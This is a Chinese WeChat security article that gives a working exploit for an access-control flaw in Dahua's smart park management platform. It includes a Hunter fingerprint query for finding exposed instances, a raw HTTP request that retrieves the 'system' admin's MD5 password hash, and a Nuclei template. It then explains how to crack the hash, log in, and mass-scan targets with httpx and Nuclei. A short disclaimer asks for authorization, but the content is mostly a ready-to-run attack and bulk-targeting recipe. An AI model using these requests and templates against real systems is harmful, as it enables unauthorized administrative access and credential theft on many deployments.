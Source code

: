 #  httpx+nuclei实战 | 大华智慧园区综合管理平台任意密码读取漏洞

原创 zkaq-守法好青年  [ 掌控安全EDU ](javascript:void\(0\);)

**掌控安全EDU** ![]()

微信号 ZKAQEDU

功能介绍 安全教程\高质量文章\面试经验分享，尽在#掌控安全EDU#

____

___发表于_

收录于合集

免费&进群

![]()  ![]()  
本文由掌控安全学院 -  守法好青年   投稿

#### 漏洞成因

没有对接口进行严格的权限管理，导致可以通过访问user_getUserInfoByUserName.action获取system用户的MD5加密后的密码

#### hunter语法

`web.icon="4644f2d45601037b8423d45e13194c93"&&web.title="智慧园区综合管理平台"`

#### POC

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    GET /admin/user_getUserInfoByUserName.action?userName=system HTTP/1.1Host: xxxxxxxxxCookie: JSESSIONID=D99F6DAEA7EC0695266E95A1B1A529CCCache-Control: max-age=0Sec-Ch-Ua: "Chromium";v="118", "Google Chrome";v="118", "Not=A?Brand";v="99"Sec-Ch-Ua-Mobile: ?0Sec-Ch-Ua-Platform: "Windows"Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Sec-Fetch-Site: noneSec-Fetch-Mode: navigateSec-Fetch-User: ?1Sec-Fetch-Dest: documentAccept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9X-Forwarded-For: 127.0.0.1Connection: close

编写.yam文件  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    id: dahuainfo:  name: Template Name  author: wuwen  severity: info  description: description  reference:    - https://  tags: tagsrequests:  - raw:      - |+        GET /admin/user_getUserInfoByUserName.action?userName=system HTTP/1.1        Host: {{Hostname}}        Cookie: JSESSIONID=D99F6DAEA7EC0695266E95A1B1A529CC        Cache-Control: max-age=0        Sec-Ch-Ua: "Chromium";v="118", "Google Chrome";v="118", "Not=A?Brand";v="99"        Sec-Ch-Ua-Mobile: ?0        Sec-Ch-Ua-Platform: "Windows"        Upgrade-Insecure-Requests: 1        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7        Sec-Fetch-Site: none        Sec-Fetch-Mode: navigate        Sec-Fetch-User: ?1        Sec-Fetch-Dest: document        Accept-Encoding: gzip, deflate        Accept-Language: zh-CN,zh;q=0.9        X-Forwarded-For: 127.0.0.1        Connection: close    matchers-condition: and    matchers:      - type: word        part: body        words:          - loginPass      - type: status        status:          - 200

拼接POC访问之后就是这样  

#### ![]()  

再将里面的loginpass字段的内容进行MD5解密

![]()  
试了一下，很多就算用了付费的MD5解密也解不开[跟密码复杂程度有关]，当然也有解得开的，然后输入账号/密码，就可以登录了

![]()

#### 速刷技巧

前两天听了月佬的课，知道了httpx和nuclei联动的强大，所以一起写在这里

##### httpx和nuclei的下载链接

    
          1. https://github.com/projectdiscovery/httpx/releases
    
      2. https://github.com/projectdiscovery/nuclei/releases
    
      3. burp插件，写nuclei的.yaml文件的
    
      4. https://github.com/projectdiscovery/nuclei-burp-plugin/releases
    
    
    

##### 使用方法

首先使用httpx探测存活的目标,我使用的是windows

    
          1. httpx.exe -l url.txt -mc 200 >> survival.txt
    
      2. 就是探测url.txt中的存活的地址（响应码为200） 存到当前目录的survival.txt中
    
    
    

然后使用burp抓取数据包（攻击成功的），选择部分返回包里的内容，使用插件nuclei

![]()  
保存文件，应该是.yaml后缀的

![]()

最后就是使用nuclei了

    
          1. nuclei.exe -l survival.txt -t poc.yaml
    
    
    

如果成功的话就是这样（注意文件路径，如果不确定，就把文件拉进去用绝对路径）  
![]()

最后一定要去验证一下漏洞是否真的存在，然后再提交，通过这种联动，就可以批量打漏洞了。

申明：本公众号所分享内容仅用于网络安全技术讨论，切勿用于违法途径，

所有渗透都需获取授权，违者后果自行承担，与本号及作者无关，请谨记守法.

![]()  

 **没看够~？欢迎关注！**

 **  
**

 **分享本文到朋友圈，可以凭截图找老师领取**

上千 **教程+工具+交流群+靶场账号** 哦



![]()

 ** ** **分享后扫码 加我！**

  

 **回顾往期内容**

[Xray挂机刷漏洞](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247504665&idx=1&sn=eb88ca9711e95ee8851eb47959ff8a61&chksm=fa6baa68cd1c237e755037f35c6f74b3c09c92fd2373d9c07f98697ea723797b73009e872014&scene=21#wechat_redirect)  

[零基础学黑客，该怎么学？](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247487576&idx=1&sn=3852f2221f6d1a492b94939f5f398034&chksm=fa686929cd1fe03fcb6d14a5a9d86c2ed750b3617bd55ad73134bd6d1397cc3ccf4a1b822bd4&scene=21#wechat_redirect)

[网络安全人员必考的几本证书！](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247520349&idx=1&sn=41b1bcd357e4178ba478e164ae531626&chksm=fa6be92ccd1c603af2d9100348600db5ed5a2284e82fd2b370e00b1138731b3cac5f83a3a542&scene=21#wechat_redirect)  

[文库｜内网神器cs4.0使用说明书](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247519540&idx=1&sn=e8246a12895a32b4fc2909a0874faac2&chksm=fa6bf445cd1c7d53a207200289fe15a8518cd1eb0cc18535222ea01ac51c3e22706f63f20251&scene=21#wechat_redirect)  

[代码审计 |
这个CNVD证书拿的有点轻松](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247503150&idx=1&sn=189d061e1f7c14812e491b6b7c49b202&chksm=fa6bb45fcd1c3d490cdfa59326801ecb383b1bf9586f51305ad5add9dec163e78af58a9874d2&scene=21#wechat_redirect)

[【精选】SRC快速入门+上分小秘籍+实战指南](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247512593&idx=1&sn=24c8e51745added4f81aa1e337fc8a1a&chksm=fa6bcb60cd1c4276d9d21ebaa7cb4c0c8c562e54fe8742c87e62343c00a1283c9eb3ea1c67dc&scene=21#wechat_redirect)

## [    代理池工具撰写 |
只有无尽的跳转，没有封禁的IP！](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247503462&idx=1&sn=0b696f0cabab0a046385599a1683dfb2&chksm=fa6bb717cd1c3e01afc0d6126ea141bb9a39bf3b4123462528d37fb00f74ea525b83e948bc80&scene=21#wechat_redirect)

![]()

点赞+在看支持一下吧~感谢看官老爷~

你的点赞是我更新的动力

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

